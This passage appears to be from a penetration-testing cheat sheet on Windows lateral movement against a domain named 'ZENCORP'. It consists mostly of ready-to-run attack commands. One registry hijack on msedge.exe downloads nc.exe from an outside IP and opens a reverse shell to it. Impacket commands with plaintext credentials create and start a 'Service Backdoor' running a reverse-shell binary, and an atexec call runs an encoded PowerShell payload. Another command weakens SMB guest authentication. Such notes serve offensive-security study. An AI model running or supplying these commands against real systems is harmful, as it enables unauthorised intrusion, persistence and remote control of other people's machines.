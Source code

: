 ```powershell
# Reg.exe (needs to open Edge)
reg.exe add "\\srv02.zencorp.local\HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\msedge.exe" /v Debugger /t reg_sz /d "cmd /c copy \\172.20.1.91\share\nc.exe && nc.exe -e \windows\system32\cmd.exe 172.20.1.91 8080"
```

#### Lateral movement from Linux

| Tool        | Functionality                                               | Features                                                                                         | Authentication            |
| ----------- | ----------------------------------------------------------- | ------------------------------------------------------------------------------------------------ | ------------------------- |
| psexec.py   | Remote command execution by creating a service              | Uploads executable to ADMIN$ share, uses RPC and named pipes for command execution               | Username/Password or NTLM |
| smbexec.py  | Executes commands on remote systems over SMB                | Runs commands without uploading files, communicates over TCP 445, uses MSRPC for service control | Username/Password or NTLM |
| services.py | Interacts quieter with Windows services via MSRPC interface | Start, stop, configure, delete, and manage services non-interactively                            | Username/Password or NTLM |
| atexec.py   | Leverages Windows Task Scheduler service                    | Appends a task to the Windows Task Scheduler to execute commands at a specific time              | Username/Password or NTLM |



```powershell
# psexec.py
psexec.py ZENCORP/john:'pass123'@172.20.1.51

# smbexec.py
smbexec.py ZENCORP/john:'pass123'@172.20.1.51

# services.py list services
services.py ZENCORP/john:'pass123'@172.20.1.51 list

# services.py Create service with venom and host on smb
services.py ZENCORP/john:'pass123'@172.20.1.51 create -name 'Service Backdoor' -display 'Service Backdoor' -path "\\\\10.10.11.201\\share\\rshell-8888.exe"

# services.py Start service
impacket-services ZENCORP/john:'pass123'@172.20.1.51 start -name 'Service Backdoor'

# service.py Delete servicee
impacket-services ZENCORP/john:'pass123'@172.20.1.51 delete -name 'Service Backdoor'

# atexec.py
atexec.py ZENCORP/john:'pass123'@172.20.1.51 "powershell -e ...SNIP...AbwBzAGUAKAApAA=="
```

#### Modify existing service using services.py. This way its possible to use the account a service is configured with, like impersonation.

```powershell
# Allow SMB Guest access in registry
reg.exe add HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /v AllowInsecureGuestAuth /d 1 /t REG_DWORD /f

# Check service configuration
impacket-services ZENCORP/john:'pass123'@172.20.1.51 config -name Spooler
Impacket v0.11.0 - Copyright 2023 Fortra                                                                                                                                                      
                                               
[*] Querying service config for Spooler
TYPE              : 272 -  SERVICE_WIN32_OWN_PROCESS  SERVICE_INTERACTIVE_PROCESS                                                                                                             
START_TYPE        :  4 -  DISABLED
ERROR_CONTROL     :  0 -  IGNORE
BINARY_PATH_NAME  : C:\Windows\System32\spoolsv.exe
LOAD_ORDER_GROUP  : SpoolerGroup    
TAG               : 0               
```